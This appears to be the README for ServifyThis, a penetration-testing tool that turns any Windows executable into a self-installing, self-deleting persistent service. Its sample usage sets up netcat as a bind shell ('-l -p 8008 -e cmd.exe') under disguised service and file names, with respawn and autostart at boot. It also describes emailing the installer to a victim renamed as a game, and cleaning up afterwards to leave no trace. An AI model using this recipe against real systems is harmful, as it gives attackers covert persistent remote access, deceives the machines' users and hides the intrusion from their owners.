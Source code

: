 # ServifyThis

Windows machines run services in the background, letting admins manage them via the Services Control panel (services.msc) or the sc command. Penetration testers sometimes want to create a Windows service that will allow them to gain and maintain remote access of a Windows machine, possibly a persistent listener offering up shell access on a given port. Unfortunately, while the Windows sc command can be used to run any .exe as a service, Windows waits 30 seconds for the given program to throw a given API call to indicate that the service has started successfully. If Windows doesn't hear back from the service, it kills the program, thinking that the service failed to start. Thus, with sc, you can make your service, but you'll only get 30 seconds of access.
Previously, various commercial and shareware programs were available that would wrap provided executables inside of code that makes the appropriate calls so that Windows would let the executable run as a service and avoid the 30-second kill rule. But, such programs were only available for a fee... until now.

InGuardians' ServifyThis program takes any Windows executable and converts it into a form suitable for use as a Windows service.

### **ServifyThis Usage Instructions:**

ServifyThis will take any Win32 executable (either command-line or GUI) and wrap it into a new executable/service/installer program that will:

1) Dump the "servified" executable on the target machine at a user-specified location and with a user-specified name.

2) Create, dump, and install a Win32 service executable that will automatically run the "servified" executable both immediately upon installation and whenever Windows boots. This service can be set to automatically respawn the "servified" executable if it exits. The name and location of the service executable, its file path, and the service name (shown in the Service control panel) are all user-specified. Optionally, the GUI of the "servified" executable can be displayed... although I don't know why you might want to...

3) The installation package self-deletes when its payload has been delivered.

4) Running the service executable with a "-u" (uninstall) option, will cause it to stop the service, stop the executable, remove the "servified" executable and finally, self-delete, leaving nothing behind on the previously exploited machine.

The parameters entered into the GUI of ServifyThis should be self-explanatory, but the following example usage should answer any lingering questions.

### **Sample Usage:**

Launch ServifyThis.exe

The parameters are broken into two groups, parameters that apply to the local machine and remote parameters that apply to the machine where the "servified" executable will be installed.

Locally, we want to choose our copy of the netcat executable:

Application to "servify": c:\program files\attack tools\nc.exe

Remotely, we want to set netcat up to work like this:

`Application Pathname: c:\windows\win32svc.exe
Command Parameters: -l -p 8008 -e c:\windows\system32\cmd.exe
Working Directory: c:\
Service Display Name: W32CriticalService
Service Pathname: c:\windows\system32\w32critsvc.exe`

Additionally, we need to make sure that the "Respawn" checkbox is checked, as it is by default. Finally, let's set our respawn interval to 1 sec.

Once we click on the "OK" button, ServifyThis spits out a new executable called "Servified.exe" in the current directory.

We then arrange for "Servified.exe" to be run on our target machine, say, by changing the name to something like "ReallyCoolGame.exe" and emailing it to the machine's user, for instance.

When Servified.exe is run on the target machine, it'll drop a copy of nc.exe into the c:\windows directory under the name win32svc.exe. It will create and drop a new service (c:\windows\system32\w32critsvc.exe) which it will install and launch. The sole purpose of this service is to launch the copy of nc.exe (now called c:\windows\win32svc.exe) with the parameters specified (which will cause it to listen on port 8008 and spawn a command shell back to anyone who connects to that port).

With that work done, Servified.exe will simply disappear, deleting itself.

We then use a local copy of netcat to connect up to our target:

`c:\Program Files\Attack Tools>nc  8008`
  
This will return us a command shell anchored in the c:\ directory, as that's what we specified for nc.exe's working directory.

We can do anything we want to do with that backdoor, confident in the knowledge that it will both continuously respawn while the machine is running, and will autostart if the machine is rebooted.

Finally, once we've done our dirty work on the target machine, we can simply change to the c:\windows\system32 directory and issue the command:

`c:\>w32critsvc -u`
  
which will stop the running service, stop the running instance of nc, and delete both the c:\windows\win32svc.exe file and the c:\windows\system32\w32critsvc.exe file.
